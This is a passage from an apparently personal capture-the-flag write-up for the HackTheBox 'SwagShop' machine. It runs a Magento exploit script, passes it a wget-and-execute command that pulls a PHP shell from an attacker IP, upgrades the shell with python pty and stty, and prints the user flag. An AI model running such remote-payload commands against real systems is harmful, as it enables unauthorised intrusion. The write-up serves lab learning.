 Run the script: 

```bash
python2 37811.py http://swagshop.htb/index.php/admin "wget -O /tmp/shell.php http://10.10.14.5/shell.php;php /tmp/shell.php"
```

Excellent, we get the shell.

```bash
id
whoami
```

![[SwagShop-10.png]]

##### Upgrade the shell

```bash
# https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/
python3 -c 'import pty; pty.spawn("/bin/bash")'
^z
echo $TERM
stty -a
stty raw -echo && fg
# nc -lvp 1234
reset
xterm-256color
stty rows 47 columns 176
```

##### capture the flag

```
www-data@swagshop:/$ pwd
/
www-data@swagshop:/$ ls
bin   home            lib64       opt   sbin  tmp      vmlinuz.old
boot  initrd.img      lost+found  proc  snap  usr
dev   initrd.img.old  media       root  srv   var
etc   lib             mnt         run   sys   vmlinuz
www-data@swagshop:/$ cd home/
www-data@swagshop:/home$ cd haris/
www-data@swagshop:/home/haris$ ls  
user.txt
www-data@swagshop:/home/haris$ cat user.txt 
9c75d82dc024fdaf9a1f9eb27ded226d

```

![[SwagShop-11.png]]


### V.IV Privilege Escalation
